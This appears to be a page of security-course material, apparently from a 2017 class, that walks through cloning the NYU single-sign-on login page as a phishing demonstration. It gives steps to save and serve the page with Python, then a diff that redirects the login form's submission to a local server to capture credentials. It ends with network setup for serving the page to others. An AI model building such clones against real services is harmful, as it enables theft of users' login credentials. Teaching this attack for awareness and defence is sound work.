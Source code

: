 
[![thegrugqsays](images/teach-someone-to-phish.png)](https://twitter.com/thegrugq/status/563964286783877121)

<blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">Give a man an 0day and he&#39;ll have access for a day, teach a man to phish and he&#39;ll have access for life.</p>&mdash; the grugq (@thegrugq) <a href="https://twitter.com/thegrugq/status/563964286783877121">February 7, 2015</a></blockquote>
<script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>


# Let's Make a Phishing Site!

   * Google Chrome
     * Command-Shift-N: Open an Incognito Window
     * https://home.nyu.edu
     * Redirected to https://shibboleth.nyu.edu/idp/profile/SAML2/...
     * Command-S: Save As
   * Command-Space: Search "Terminal"
     * cd "~/Downloads"
     * python -m SimpleHTTPServer 8000
   * Google Chrome
     * Command-T: New Tab
     * http://localhost:8000/NYU%20Login.htm
     * Now what do you notice?

# Let's Make This Nastier!

```
$ diff -u "NYU Login.htm" "NYU Login-PATCHED.htm"
--- NYU Login.htm    2017-09-05 22:32:04.000000000 -0400
+++ NYU Login-PATCHED.htm    2017-09-05 22:53:24.000000000 -0400
@@ -133,7 +133,7 @@

             <section class="col col2">
                 <div class="login">
-                    <form action="https://shibboleth.nyu.edu/idp/profile/SAML2/POST/SSO?execution=e1s1" method="post" name="login" id="login">
+                    <form action="/" method="post" name="login" id="login">
                         <h1>NYU Login</h1>
                                                                           <p>
                             <strong>Login to NYUHome</strong>
```

```
$ python server.py
```

# Let's Do This Over the Network!

```
$ ifconfig en0
en0: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
        options=10b<RXCSUM,TXCSUM,VLAN_HWTAGGING,AV>
        ether 38:c9:86:32:ec:ec
        inet6 fe80::3ac9:86ff:fe32:ecec%en0 prefixlen 64 scopeid 0x4
        inet 192.168.119.220 netmask 0xffffff00 broadcast 192.168.119.255
        nd6 options=1<PERFORMNUD>
        media: autoselect (1000baseT <full-duplex>)
        status: active
```

